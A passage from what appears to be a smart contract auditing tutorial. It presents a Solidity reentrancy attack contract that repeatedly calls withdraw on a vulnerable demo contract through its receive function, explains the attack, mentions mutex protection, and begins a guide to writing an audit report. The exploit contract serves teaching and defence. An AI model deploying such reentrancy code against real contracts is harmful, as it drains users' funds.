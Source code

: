 ```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "./ReentrancyVul.sol";

contract ReentrancyAttack {
  ReentrancyExample public target;
  uint public count;

  constructor(address _target) {
    target = ReentrancyExample(_target);
  }

  function attack() public payable {
    count++;
    if (count < 10) {
      target.withdraw(1 ether);
    }
  }

  receive() external payable {
    if (count < 10) {
      target.withdraw(1 ether);
    }
  }
}
```

This contract creates a new `ReentrancyAttack` contract and sets the `target` to the address of the `ReentrancyExample` contract. The `attack` function is called repeatedly to execute the `withdraw` function of the `ReentrancyExample` contract. The `receive` function is a fallback function that is called when the contract receives Ether. This function also calls the `withdraw` function, allowing the attacker to repeatedly withdraw funds from the `ReentrancyExample` contract.

To protect against this attack, we can deploy the updated `ReentrancyExample` contract with the mutex protection described earlier.

Yeah that's it, we just concluded the audit!

## How to Writing an Audit Report

After thorough analysis of the smart contract's code to identify any potential security vulnerabilities, it is required of you to write a report. Here are the steps you can follow to write a smart contract audit report:

* Introduction: Begin the report by introducing the smart contract and its purpose. Provide a brief background on the project, including its objectives, target audience, and the technologies used.
    
* Scope: Clearly define the scope of the audit, including the specific components of the smart contract that were analyzed.
    
* Methodology: Describe the methodology used to conduct the audit, including the tools and techniques employed.
    